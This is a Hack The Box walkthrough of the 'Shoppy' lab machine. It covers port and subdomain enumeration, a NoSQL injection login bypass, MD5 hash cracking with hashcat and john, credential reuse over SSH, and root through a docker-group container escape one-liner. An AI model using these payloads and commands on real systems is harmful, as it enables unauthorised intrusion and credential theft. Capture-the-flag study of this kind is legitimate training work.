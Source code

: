 ```yaml
---
title: Hack the Box - Writeup (Shoppy)
description: This box consists of searching for the credentials on the webapp,
  and then find our way up to escalate our priviledges for root access to the
  machine.
category: Writeup
author:
  name: Farouk Mokhtari
  email: fmokhtari@mail.ru
  website: https://fmokhtari.com
  btc: 1JJmuidSTRCugnBKH8H7bDxEmTtAAg4kyn
  usdt: TWi6yNRhxzkmgZhhoriDzWgvrSsxbdQCb8
  xmr: 87Asjp2TLCkKnw3PYsiKaTDwL8mNhiL7uV67ptCtVxqbSnaZfATQ6t4d1mfWnKu4kB4ieQHMApGhUdUY3h4RKBS2Kuc5RyW
tags:
  - hackthebox
  - ctfs
date: 2022-12-10T08:53:17.813Z
---
```


## Introduction

Hello everybody, this machine (Shoppy) from Hack The Box is an easy one. It
consists of searching for the credentials on a webapp, and then find our way
up to escalate ur priviledges for root access to the machine.

## Enumeration

As usual we start our enumeration with an _nmap_ scan to check for open ports.

```shell
nmap -sC -sV -v -oA 10.10.11.180-shoppy.txt 10.10.11.180
```

- `-sV` We probe for open ports to determine services/version info.
- `-sC` Scanning for scripts to use on the services found.

We have this output :

```shell
# Nmap 7.93 scan initiated Wed Dec  7 22:43:45 2022 as: nmap -sC -sV -v -oA 10.10.11.180-shoppy.txt 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  7 22:43:59 2022 -- 1 IP address (1 host up) scanned in 13.78 seconds

```

Now since we know there's only two ports open :

- 22 (ssh)
- 80 (http) We get a domain in here [shoppy.htb](http://shoppy.htb)

We can't access the IP address on our browser, so we have to add it to our hosts **/etc/hosts**.

We continue our enumeration with a `gobuster` probe that gives these results :

```shell
gobuster -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

```

![GoBuster](/images/shoppy/gobuster.png)

Now as you can see we notice two important pages **login** page and an
**admin** section. After few attemps to exploit. On the login page we find a
vulnerability using NoSQL injection, we use **admin'||'1==1** to exploit.

This will give us access to the admin panel :

![Dashboard](/images/shoppy/dashboard.png)

Once again here we search with the same NoSQL injection :

```
'||'1==1
```

![Search](/images/shoppy/search.png)

We get a json file to download with all the users :

![Download](/images/shoppy/download.png)

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

We discover two users, **admin** and **josh**, with hashes that look like
_md5_. After cracking them using **john the ripper**.

> **Note :** You can use **john the ripper** or **hashcat**,
> it doesn't matter, you'll get the same result.

Both commands are like so :

```shell
hashcat -m 0 hashfile /usr/share/dict/rockyou.txt

```

```shell
john --wordlist=/usr/share/dict/rockyou.txt hashfile

```

We got the credentials for _josh_ :

```
username: josh
password: remembermethisway
```

At the same time we conduct another probing with **ffuf** for subdomain
enumeration. ffuf results are as follows :

```shell
ffuf -w bitquark-subdomains-top100000.txt -v -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -fs 169
```

> **Note :** We add the **-fs** flag because we get a lot of pages with the
> same size and we want pages with different sizes.

```shell
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

[Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 93ms]
| URL | http://shoppy.htb/
    * FUZZ: mattermost

:: Progress: [100000/100000] :: Job [1/1] :: 392 req/sec :: Duration: [0:04:42] :: Errors: 0 ::

```

We discover a subdomain **mattermost** to add to the _hosts_ file. After
accessing the sub we see this page :

![MatterMost](/images/shoppy/login.png)

Now, we can use the credentials we found for the user _josh_ on that subdomain.
We're in! And in the development section on the website we find an interesting
disscution between josh and what appears to be a sysadmin **jaeger**.

![sysadmin](/images/shoppy/sysadmin.png)

On the Deploy Machine channel we find some credentials for jaeger's account :

![Jaeger](/images/shoppy/jaeger.png)

```
username: jaeger
password: Sh0ppyBest@pp!
```

## Exploitation

We use these credentials to access our machine via ssh. We find 2 users on
the machine, first _jaeger_ himself, the other is _deploy_. So, on the deploy
account we can find the password manager that josh was talking about.

We copy it to our account so we can run it. It's a simple program that spits out
credentials when the master password is given.

Let's try and find out what is the master password, using **xxd**, and as we
can see we find our password.

```shell
xxd password-manager | less
```

We scroll down the file and we find a section that gives the following :

![xxd](/images/shoppy/xdd.png)

The master password is **Sample**. Now after inserting the password, we get an
access granted and the output of _creds.txt_ file.

```shell
echo Sample | sudo -u deploy /home/deploy/password-manager
```

```shell
Welcome to Josh password manager!
Please enter your master password: Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

## Priviledge Escalation

Now let's ssh into the deploy account. We are in the deployment account, we
notice that the user is a member of the docker group

```shell
groups deploy
deploy docker
```

And we notice that docker contains an image of alpine, and we have a
vulnerability on alpine with docker, so we can use this command to get a root
shell on the machine.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Now you know the drill!
